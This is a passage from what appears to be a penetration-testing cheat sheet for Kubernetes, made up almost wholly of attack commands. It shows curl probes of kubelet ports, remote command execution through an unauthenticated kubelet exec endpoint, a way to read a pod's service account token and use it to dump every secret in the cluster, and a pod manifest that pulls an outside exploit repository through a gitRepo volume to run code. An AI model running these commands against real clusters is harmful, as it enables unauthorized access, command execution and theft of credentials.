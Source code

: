 ```powershell
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

### kubelet (Read only)

```powershell
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```

## Exploits

### Accessible kubelet on 10250/TCP

**Requirements**:

- `--anonymous-auth`: Enables anonymous requests to the Kubelet server

**Exploit**:

- Getting pods: `curl -ks https://worker:10250/pods`
- Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`

### Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:

- on `kube-apiserver` API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
- with kubectl: `kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`

### Create gitRepo Volumes to Execute Code

**Requirements**:

- [`gitRepo`](https://kubernetes.io/docs/concepts/storage/volumes/#gitrepo) volume type enabled
- `create` rights on pods

**Exploit**:

```yml
apiVersion: v1
kind: Pod
metadata:
  name: test-pd
spec:
  containers:
  - image: alpine:latest
    command: ["sleep","86400"]
    name: test-container
    volumeMounts:
    - mountPath: /gitrepo
      name: gitvolume
  volumes:
  - name: gitvolume
    gitRepo:
      directory: g/.git
      repository: https://github.com/raesene/repopodexploit.git
      revision: main
```
